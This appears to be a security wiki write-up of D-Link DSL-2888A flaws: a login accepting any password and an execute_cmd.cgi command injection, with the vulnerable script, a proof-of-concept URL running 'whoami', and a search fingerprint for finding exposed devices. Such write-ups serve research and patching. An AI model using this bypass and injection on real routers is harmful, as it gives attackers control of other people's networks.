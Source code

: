 # D-Link DSL-28881A Remote command execution CVE-2020-24581

## Vulnerability Description

D-Link DSL-2888A AU_2.31_V1.1.47ae55 versions have a security vulnerability, which originated from the inclusion of an execute cmd.cgi feature (not accessible through the web user interface), which allows authenticated users to execute operating system commands.
There is also an unsafe authentication vulnerability in this version of firmware (CVE-2020-24580). You can successfully access the router interface by entering any password in the login interface.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DSL-2888A</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="DSL-2888A"</span>

## Vulnerability reappears

Enter any password to establish a connection on the login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-1.png)



Jump to http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail Display password error

The vulnerability appears in the `execute_cmd.cgi` file

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```



Here, take out the second parameter value in `${QUERY_STRING}`, and then remove the space command to execute

There is no filtering during this process, let's see where the parameters come from

File `/www/js/ajax.js`

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```



Take a look at the process



```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```



Take the second parameter `whoami` and then execute without filtering



So the EXP is:



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-4.png)
